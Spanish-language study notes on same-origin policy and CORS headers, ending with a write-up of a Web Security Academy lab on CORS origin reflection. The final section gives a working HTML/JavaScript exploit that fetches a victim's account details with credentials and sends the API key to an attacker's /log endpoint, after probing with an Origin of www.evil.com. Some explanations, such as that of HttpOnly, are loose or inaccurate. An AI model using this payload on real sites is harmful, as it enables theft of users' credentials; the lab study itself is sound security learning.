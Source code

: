 # SOP 

> La política del mismo origen impide que los scripts de un origen accedan a datos de otro origen. Un origen consta de un esquema de URI, un dominio y un número de puerto.

Al parecer fue primero que el CORS

## HttpOnly

Es una cabecera que tiene que ver con compartir los datos entre subdominios lo cual no lo permite.

# CORS

> Cross Origin (origen cruzado) es la palabra que se utiliza para denominar
el tipo de peticiones que se realizan a un dominio diferente del dominio de origen desde donde se realiza la petición. De esta forma, por una parte tenemos las peticiones de origen cruzado (cross-origin) y las peticiones del mismo origen (same-origin).

> Cross-origin resource sharing (CORS) is a browser mechanism which enables controlled access to resources located outside of a given domain.

Osea que son peticiones que se generan desde nuestra pagina a otra pagina.

> CORS (Cross-Origin Resource Sharing) es un mecanismo o política de seguridad que permite controlar las peticiones HTTP asíncronas que se pueden realizar desde un navegador a un servidor con un dominio diferente de la página cargada originalmente. 
Este tipo de peticiones se llaman peticiones de origen cruzado (cross-origin).

Por defecto 

> Utilizando este tipo de peticiones asíncronas, los recursos situados en dominios diferentes al de la página actual no están permitidos por defecto.
Es lo que se suele denominar protección de CORS. Su finalidad es dificultar la posibilidad de añadir recursos ajenos en un sitio determinado.

## Access-Control-Allow-Origin

Esta es una cabecera que se puede añadir para pemitir solicitudes cruzadas hacia otros dominion y se usa asi:

```
Access-Control-Allow-Origin: https://domain.com/
Access-Control-Allow-Origin: *

```


> El asterisco * indica que se permiten peticiones de origen cruzado a cualquier dominio, algo que puede ser interesante cuando se tienen API públicas a las que quieres permitir el acceso al público en general, 
casos como los de Google Fonts o JSDelivr, por citar un ejemplo.

EJEMPLO:

Segun lo entendido el servidor robust-website.com hace una petcion a https://normal-website.com

```
GET /data HTTP/1.1
Host: robust-website.com
Origin : https://normal-website.com

```

***Conclucion***: El CORS se configura del lado del servidor y a las dos partes se le llama origen (Cliente y Servidor) osea si voy a hacer una peticion desde mipagina.com el origuen seria ese
a mi serverapi.com (pero este tambien tiene un campo origen cuando se manda la respuesta y el origen seria serverapi.com pero al enviar la respuesta) ahora al enviar esa peticion el servidor
revisa si este origen tiene permisos para pedir datos del servidor( para apis por ejemplo la poken api queremos que todos puedan solicitar datos entonces se usa el asterisco
en la Access-Control-Allow-Origin:*) si no los tiene pues regresa el error de CORS si si esta permitido ese "origen" pues regresa los datos.

## Access-Control-Allow-Credentials

> El encabezado Access-Control-Allow-Credentials funciona junto con la propiedad XMLHttpRequest.withCredentials o con la opción credentials en el constructor Request() de la API Fetch. Para una solicitud CORS con credenciales, para que los navegadores expongan la respuesta al código JavaScript de la interfaz, tanto el servidor (usando el encabezado Access-Control-Allow-Credentials ) como el cliente (configurando el modo de credenciales para XHR, Fetch o Solicitud Ajax) debe indicar que están optando por incluir credenciales.
Osea permiten que el cliente sepa que se pueden hacer peticiones cruzadas con credenciales.

## XMLHttpRequest.withCredentials

> La propiedad XMLHttpRequest.withCredentials es un valor booleano que indica si se deben realizar o no solicitudes de Access-Control sitios utilizando credenciales como cookies, encabezados de autorización o certificados de cliente TLS. La configuración con withCredentials no tiene ningún efecto en las solicitudes del mismo sitio.

> https://runebook.dev/es/docs/dom/xmlhttprequest/withcredentials

```
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://example.com/', true);
xhr.withCredentials = true;
xhr.send(null

```

# CORS vulnerability with basic origin reflection

Para este lab primero se verifica que la pagina es vulnerable poniendo un Origen aleatoreo por ejemplo Origin:www.evil.com esto se pone en la 
pagina donde se ve los detalles de la cuenta entonces con el repeater se renvia y lo que se nota es que 
ese mismo origen que inyectamos se ve reflekado en la respuesta junto con las respectivas cabeceras: 

```
Access-Control-Allow-Origin: www.evil.com
Access-Control-Allow-Credentials: true

```

Entonces el ataque consiste en lo siguiete: Crear un scritp que se aproveche de esta vulnerabilidad de aceptar cualquier origen, que un usuario admin oprima el 
link donde esta el script este lo que hace es generar una  peticion hacia account details de ahi saca los datos que es el token de la api para posteriormente
generar una peticion a un servidor del atacante en donde se manda los datos del admin.

```

<html>
<head>
<body>
<script>
	
 var xhr = new XMLHttpRequest(); // creamos un objeto para poder hacer peticiones
 var url = "https://0ac60051041133d6c0b462860014009b.web-security-academy.net/accountDetails"; // definimos la url donde regresa el token de un usuario

 xhr.onreadystatechange = function() { // esta funcion sirve para que cuando se genere el evento de DONE que es cuando la pagina ya termina de tardar
 if (xhr.readyState == XMLHttpRequest.DONE) {
 fetch("/log?key=" + xhr.responseText)// es una peticion al servidor del atacante con los datos que le intersa robar como es asincrono hasta que se genere no
// ejecuta este codigo
 	}
 }

 
 xhr.open('GET',url,true) // le que tipo de peticion se tiene que hacer  la url y true para decirle que se pueden hacer peticiones asincronas
 xhr.withCredentials = true;// Para que permita peticiones cruzadas con cookies y cledenciales
 xhr.send(null);// envio de la peticion inicial



</script>

</body>
</html>

```



